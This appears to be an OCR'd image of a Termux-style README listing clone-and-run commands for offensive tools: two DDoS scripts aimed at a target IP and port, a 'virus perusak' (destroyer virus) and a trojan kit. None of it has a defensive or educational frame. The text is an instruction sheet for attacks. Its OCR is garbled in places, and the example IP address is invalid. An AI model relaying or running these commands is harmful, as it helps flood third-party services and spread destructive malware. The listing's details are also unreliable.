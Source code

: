 # ddos-hammer
$ pkg update &amp;&amp; pkg upgrade  $ pkg install python $ git clone https://github.com/cyweb/hammer  $ cd hammer  python hammer.py  $ python hammer.py -s [IP target] -p [PORT] -t 135
# LITEDDOS
$git clone https://github.com/4L13199/LITEDDOS $cd LITEDDOS $python2 LITEDDOS. py ip 168.294.201.387 port 700 traffic 400
# virus perusak
$ pkg install python $ git clone https://github.com/justahackers/perusak $ cd perusak $ python2 perusak.py
#TROJANS
$ pkg install git python2 $ git clone https://github.com/Bl4ckDr460n/STrojans $ cd STrojans $ python2 STrojans.py
